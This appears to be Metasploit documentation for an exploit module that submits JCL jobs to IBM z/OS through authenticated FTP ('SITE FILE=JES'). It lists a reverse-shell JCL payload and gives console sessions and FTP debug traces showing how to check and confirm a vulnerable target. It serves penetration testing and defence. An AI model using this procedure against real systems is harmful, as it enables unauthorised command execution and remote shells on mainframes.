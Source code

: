 z/OS JCL authorized FTP-base command execution - hints & tips

In order to use this exploit, you must have valid credentials on the target z/OS system.  The credentials must have access to upload files via FTP.  If in doubt, use the check function of the exploit.

## Vulnerable Application

This exploit was tested on the ftp daemons for z/OS version 1.13 / 2.1

## Payloads

If the exploit works, any JCL the user has rights to submit can be submitted.

See cmd type payloads under mainframe with jcl in the payload name, e.g.:

```
msf exploit(ftp_jcl_creds) > show payloads

Compatible Payloads
===================

   Name                             Disclosure Date  Rank    Description
   ----                             ---------------  ----    -----------
   cmd/mainframe/generic_jcl                         normal  Generic JCL Test for Mainframe Exploits
   cmd/mainframe/reverse_shell_jcl                   normal  Z/OS (MVS) Command Shell, Reverse TCP
```

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(ftp_jcl_creds) > set FTPUSER ftptest
FTPUSER => ftptest
msf exploit(ftp_jcl_creds) > set FTPPASS password
FTPPASS => password
msf exploit(ftp_jcl_creds) > set RHOST 10.10.10.1
RHOST => 10.10.10.1
msf exploit(ftp_jcl_creds) > info

       Name: FTP JCL Execution
     Module: exploit/mainframe/ftp/ftp_jcl_creds
   Platform: Mainframe
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2013-05-12

Available targets:
  Id  Name
  --  ----
  0   auto

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  FTPPASS  password         no        The password for the specified username
  FTPUSER  ftptest          no        The username to authenticate as
  RHOST    10.10.10.1     yes       The target address
  RPORT    21               yes       The target port
  SLEEP    5                no        Time to wait before checking if job has completed.

Payload information:

Description:
  Submit JCL to z/OS via FTP and SITE FILE=JES. This exploit requires
  valid credentials on the target system

msf exploit(ftp_jcl_creds) > check

[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```


## Debugging

If the exploit or check is not working, turn on the VERBOSE and FTPDEBUG settings of the exploit and run.
The output should look similar to the below, on a vulnerable system.

```
msf exploit(ftp_jcl_creds) > set FTPDEBUG true
FTPDEBUG => true
msf exploit(ftp_jcl_creds) > set VERBOSE true
VERBOSE => true
msf exploit(ftp_jcl_creds) > check

[*] 10.10.10.1:21 - Connecting to FTP server 10.10.10.1:21...
[*] 10.10.10.1:21 - FTP recv: "220-FTPD1 IBM FTP CS V2R1 at ZOS.EXAMPLE.COM, 16:52:31 on 2016-04-27.\r\n220 Connection will close if idle for more than 5 minutes.\r\n"
[*] 10.10.10.1:21 - Connected to target FTP server.
[*] 10.10.10.1:21 - Authenticating as ftptest with password password...
[*] 10.10.10.1:21 - FTP send: "USER ftptest\r\n"
[*] 10.10.10.1:21 - FTP recv: "331 Send password please.\r\n"
[*] 10.10.10.1:21 - Sending password...
[*] 10.10.10.1:21 - FTP send: "PASS password\r\n"
[*] 10.10.10.1:21 - FTP recv: "230 FTPTEST is logged on.  Working directory is \"FTPTEST.\".\r\n"
[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - FTP send: "site file=jes\r\n"
[*] 10.10.10.1:21 - FTP recv: "200 SITE command was accepted\r\n"
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```

## Notes

The job run will leave a joblog for the credentials used.   
